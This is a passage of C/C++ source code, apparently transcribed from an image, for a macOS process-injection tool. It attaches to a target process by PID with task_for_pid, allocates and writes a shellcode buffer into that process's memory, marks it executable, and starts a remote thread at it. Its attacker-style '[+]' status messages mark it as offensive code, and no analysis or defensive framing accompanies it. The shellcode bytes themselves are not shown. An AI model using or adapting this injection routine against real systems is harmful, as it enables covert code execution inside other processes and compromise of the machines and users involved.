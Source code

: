 ```cpp
  }

  pid_t pid = atoi(argv[1]);
  task_t task;
  kern_return_t kr = task_for_pid(mach_task_self(), pid, &task);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] task_for_pid() failed: %s\n", mach_error_string(kr));
    return 1;
  }
  printf("[+] attached to pid %d\n", pid);

  mach_vm_address_t remote_addr = 0;
  vm_size_t shellcode_size = sizeof(shellcode);

  kr = mach_vm_allocate(task, &remote_addr, shellcode_size, VM_FLAGS_ANYWHERE);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] mach_vm_allocate failed: %s\n", mach_error_string(kr));
    return 1;
  }
  printf("[+] allocated memory at 0x%llx\n", remote_addr);

  kr = mach_vm_write(task, remote_addr, (vm_offset_t)shellcode, shellcode_size);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] mach_vm_write failed: %s\n", mach_error_string(kr));
    return 1;
  }
  printf("[+] wrote shellcode\n");

  kr = mach_vm_protect(task, remote_addr, shellcode_size, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] mach_vm_protect failed: %s\n", mach_error_string(kr));
    return 1;
  }
  printf("[+] set memory protections to RX\n");

  // setup new thread state
  x86_thread_state64_t state;
  thread_act_t thread;
  mach_msg_type_number_t state_count = x86_THREAD_STATE64_COUNT;
  memset(&state, 0, sizeof(state));

  // set instruction pointer (rip) to our shellcode
  state.__rip = remote_addr;

  // stack pointer (rsp) should be valid; just allocate a dummy stack
  mach_vm_address_t remote_stack = 0;
  kr = mach_vm_allocate(task, &remote_stack, 0x1000, VM_FLAGS_ANYWHERE);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] mach_vm_allocate (stack) failed: %s\n", mach_error_string(kr));
    return 1;
  }
  state.__rsp = remote_stack + 0x1000 - 8; // stack top aligned

  kr = thread_create_running(task,
    x86_THREAD_STATE64,
    (thread_state_t)&state,
    state_count,
    &thread);

  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] thread_create_running failed: %s\n", mach_error_string(kr));
    return 1;
  }
```
